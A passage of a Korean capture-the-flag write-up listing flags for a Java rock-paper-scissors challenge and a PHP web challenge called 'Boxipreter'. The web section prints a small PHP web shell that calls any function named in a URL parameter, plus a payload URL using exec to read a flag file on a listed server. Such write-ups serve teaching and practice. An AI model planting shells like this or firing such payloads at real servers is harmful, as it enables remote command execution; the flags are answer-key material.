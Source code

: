 flag : dimi{Do you know? Numerical baseball is called a bull-cow game in foreign countries.}



### Win RSP  ( 830p )

```
flag 형식 : flag{ "무엇인가" }, dimi{}가 아닙니다.
DOWNLOAD
```

![ex_screenshot](./jpg/misc1.png)
jd-gui로 자바 코드를 보면 flag를 출력해주는 부분이 있는데 자바로 그대로 쳐주면 된다.

flag : flag{Are_you_Genius_or_Stupid?}
 

## Web

### Boxipreter  ( 880p )

```
php ssh.....? this is so vulnerable....

http://121.170.91.18/Boxipreter
```



```python
<?php

$f = $_GET['f'];
$a1 = $_GET['a1'];

echo "f : ".$f;
echo "a1 : ".$a1;

echo "<br>";
echo "go : ".$f($a1);

?>
```

- ex.php

```url
http://121.170.91.18/Boxipreter/tmp/tmp_0bed45bd5774ffddc95ffe500024f628.php?f=exec&a1=cat%20/var/www/html/Boxipreter/flag
```

- payload

검색하다가 비슷한 풀이법이 있길래 복붙했다.

flag : dimi{B0x1Pr3teR_1s_ver7\_@wesome_!1!}



